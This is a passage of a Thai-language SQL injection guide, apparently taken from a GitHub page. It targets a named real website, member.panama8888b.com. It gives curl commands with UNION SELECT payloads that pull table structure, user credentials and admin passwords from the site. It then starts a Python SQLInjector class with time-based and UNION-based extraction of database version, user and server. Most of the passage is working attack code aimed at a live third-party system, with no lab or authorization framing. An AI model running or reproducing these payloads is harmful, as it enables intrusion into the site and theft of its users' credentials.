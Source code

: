 #### 3. ดึงโครงสร้างตาราง
```bash
# ดึง column names
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%3D%27users%27%20--"
```

#### 4. ดึงข้อมูลจากตาราง
```bash
# ตัวอย่างดึงข้อมูล users
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20username%2Bchar%2858%29%2Bpassword%20FROM%20users%20--"

# ดึงข้อมูล admin
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20admin_name%2Bchar%2858%29%2Badmin_password%20FROM%20admins%20--"
```

## วิธีการ 3: การใช้ Python Script

### สร้าง Python Script สำหรับ SQL Injection

```python
#!/usr/bin/env python3
import requests
import urllib.parse
import time

class SQLInjector:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
    
    def inject_query(self, payload):
        """Execute SQL injection payload"""
        encoded_payload = urllib.parse.quote(payload)
        url = f"{self.base_url}?v=25.1{encoded_payload}"
        
        try:
            response = self.session.get(url, timeout=30)
            return response.text, response.elapsed.total_seconds()
        except Exception as e:
            return None, 0
    
    def time_based_check(self, delay=5):
        """Time-based SQL injection check"""
        payload = f")) WAITFOR DELAY '0:0:{delay}' --"
        content, elapsed = self.inject_query(payload)
        return elapsed > delay - 1
    
    def extract_data(self, query):
        """Extract data using UNION-based injection"""
        payload = f")) UNION SELECT ({query}) --"
        content, elapsed = self.inject_query(payload)
        return content
    
    def get_database_info(self):
        """Get basic database information"""
        queries = {
            'version': '@@version',
            'database': 'DB_NAME()',
            'user': 'USER_NAME()',
            'server': '@@servername'
        }
```